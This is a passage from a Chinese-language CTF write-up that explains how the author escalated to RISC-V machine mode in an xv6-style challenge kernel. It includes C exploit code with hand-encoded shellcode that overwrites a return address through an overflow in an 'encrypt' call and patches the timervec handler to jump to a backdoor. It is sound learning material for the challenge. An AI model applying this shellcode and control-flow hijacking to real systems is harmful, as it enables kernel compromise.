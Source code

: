 这是一个会不定期被触发的、位于 machine mode 中的函数，这个函数的实现位于内核中，且是**可以修改的**。
所以我们劫持这个函数调用 backdoor，就可以让 backdoor 函数在 machine mode 被执行了，从而打印出 Flag。

（这里本来脑子没转过来，想的是让 timervec 把 PMP 给关了，然后我自己调用 backdoor，但这种方法增加了复杂度，不如直接调用 backdoor 简洁）

此外还有一个注意点，就是在进入 timervec 之后，需要使用 `csrw mie, x0` （machine-mode interrupt enable）来关闭 machine mode 的各种中断。否则，在读 flag 读一半触发这个中断就不好了。（看官网 wp 学到的）

我的 exp 如下：

```c
#include "kernel/types.h"
#include "kernel/stat.h"
#include "user/user.h"

/*  hijack timervec:
 *   30401073          	 csrr   mie,x0 (disable timer interrupt)
 *   00060067            jr     a2
 */

uint32 a1[0x140/4] = {
    0x00040637,     // li a2, 0x80006214
    0x0036061b,
    0x00d61613,
    0x21460613,

    0x00040537,     // li a0, 0x80005BF0
    0x0035051b,
    0x00d51513,
    0xbf050513,

    0x304015b7,     // li a1, 0x30401073
    0x0735859b,
    0x00b53023,     // sd a1, (a0)
    0x00450513,     // addi a0, a0, 4

    0x000605b7,     // li a1, 0x00060067
    0x0675859b,
    0x00b53023,     // sd a1, (a0)

    0x0000006f,     // infinte loop
};
char a3[0x140];
char a5[0x100] = {0};

int main()
{
    *(long*)(&a1[0x138/4]) = 0x3fffff9e80;  // ra = 0x3fffff9e80 shellcode
    encrypt((char*)a1, 0x100, a3, 0, a5, 0xa0);
    
    return 0;
}
```

另外还有一个坑，就是 backdoor 函数前 N 句汇编是一些栈相关操作，我们需要跳过这几句汇编。否则内核会卡住不动！太坑了！

![](https://blog-1308958542.cos.ap-shanghai.myqcloud.com/202311290204319.png)

